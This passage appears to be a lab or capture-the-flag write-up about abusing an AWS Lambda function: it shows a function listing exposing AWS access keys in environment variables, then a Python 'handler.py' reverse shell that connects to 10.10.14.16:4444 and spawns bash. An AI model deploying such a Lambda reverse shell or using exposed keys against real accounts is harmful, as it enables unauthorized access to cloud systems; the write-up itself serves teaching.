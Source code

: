 ```
            "Timeout": 10,
            "LastModified": "2024-12-17T08:27:57.309+0000",
            "CodeSha256": "CxUb8kp80KqTa/tzdVQeTVFqo0Nhs0W2AwRKeuplCXE=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "Environment": {
                "Variables": {
                    "AWS_ACCESS_KEY_ID": "AKIA5M34BDN8GCJGRFFB",
                    "AWS_SECRET_ACCESS_KEY": "eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY"
                }
            },
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "54415165-b344-4c0d-b815-ee1d532c62d0",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```
The function which was running on the bucket is called UploadToS3 and it is using python3, we then proceeded to search for a way to execute code by using the function feature.

After some trial and error we managed to upload our function which executes our script “handler.py”

```
└─$ cat handler.py 
import socket,subprocess,os

def handler(event, context):
  s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("10.10.14.16", 4444))
  os.dup2(s.fileno(), 0)
  os.dup2(s.fileno(), 1)
  os.dup2(s.fileno(), 2)
  p = subprocess.call(["/bin/bash", "-i"])
```
